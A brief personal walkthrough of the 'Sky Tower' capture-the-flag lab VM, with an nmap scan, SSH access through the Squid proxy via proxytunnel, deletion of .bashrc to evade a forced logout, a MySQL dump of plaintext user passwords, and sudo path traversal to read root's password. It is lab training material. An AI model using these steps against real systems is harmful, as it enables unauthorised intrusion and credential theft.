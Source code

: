 --------------------------------
# Author Shubham Ranpise
--------------------------------

# 17/december/2022

# Sky Tower

----------------------------------------------------------------
# nmap scan (website hosted on port 80)
----------------------------------------------------------------
PORT     STATE    SERVICE    VERSION
22/tcp   filtered ssh
80/tcp   open     http       Apache httpd 2.2.22 ((Debian))
3128/tcp open     http-proxy Squid http proxy 3.1.20


john
hereisjohn 

proxytunnel -p 10.0.2.13:3128 -d 127.0.0.1:22 -a 4444
ssh john@127.0.0.1 -p 4444
ssh john@127.0.0.1 -p 4444 rm .bashrc

-> cat /var/www/login.php
root:root
-> mysql -uroot -proot
-> show databases;
-> use SkyTech
-> show tables;
-> select * from login;
+----+---------------------+--------------+
| id | email               | password     |
+----+---------------------+--------------+
|  1 | john@skytech.com    | hereisjohn   |
|  2 | sara@skytech.com    | ihatethisjob |
|  3 | william@skytech.com | senseable    |
+----+---------------------+--------------+
-> ssh sara@127.0.0.1 -p 4444 rm .bashrc
-> ssh sara@127.0.0.1 -p 4444 
-> sudo -l
(root) NOPASSWD: /bin/cat /accounts/*, (root) /bin/ls /accounts/*

-> sudo /bin/cat /accounts/../root/flag.txt
Congratz, have a cold one to celebrate!
root password is theskytower

-> su root
you got root
